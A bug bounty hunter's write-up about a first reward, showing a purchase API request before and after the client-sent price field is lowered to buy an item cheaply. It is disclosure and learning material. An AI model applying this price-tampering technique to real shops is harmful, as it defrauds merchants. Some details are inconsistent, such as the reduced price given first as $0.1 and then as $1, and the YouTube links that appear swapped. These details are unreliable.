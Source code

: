 
  title: "my first bounty as a bug bounty hunter (business logic)",
  date: "2021-03-13",
  summary: "A personal journey of getting the first bounty as a bug bounty hunter by finding a business logic vulnerability.",
};

# Introduction

Hello,  
I want to share with you my journey getting my first bounty as a bug bounty hunter. I started exploring the bug bounty world when I saw sir Japz Divino and Tech in the Province videos on YouTube explaining what is bug bounty and how they got started as hunters. Of course, I had some experience in the Cyber World, but it was only a little amount of it. After listening to their advice, I joined their Facebook community and started exploring a list of easy bugs. After learning a few interesting bugs, I began hunting them in the real world.

- Japz Divino — [YouTube](https://www.youtube.com/@TechInTheProvince)
- Tech in the Province — [YouTube](https://www.youtube.com/@japzdivino)

# HOW I MANAGED TO GET MY FIRST BOUNTY

So, I started joining BugCrowd and HackerOne platforms, but I didn’t have many good findings. I then decided to start dorking some Bug Bounty programs outside of these two platforms. After some exploration, I found one that caught my attention. When I began buying items, I noticed that the item price was visible in the POST request. I tried changing the price from $10 to $0.1, and it was a success!

The request looked like this:
```http
POST /v1/buy HTTP/1.1
Host: api.redacted
{
  "base_amount": "10.00000000",
  "source_client": "web",
  "pay_with_wallet": "true",
  "product_code": "PRODUCT10",
  "recipient_email": "xxxx@mail.com"
}
```

Edited Request:

```http
{
  "base_amount": "0.10000000",
  "source_client": "web",
  "pay_with_wallet": "true",
  "product_code": "PRODUCT10",
  "recipient_email": "xxxx@mail.com"
}

```

<img src="https://miro.medium.com/v2/resize:fit:1004/format:webp/1*wKcmALMMwAQ4CyvVbjzbgQ.png" alt="image" />

I was able to change the base_amount from $10 to $1.


## Timeline

[02/08/2021] — Bug reported

[03/13/2021] — Rewarded $X,XXX
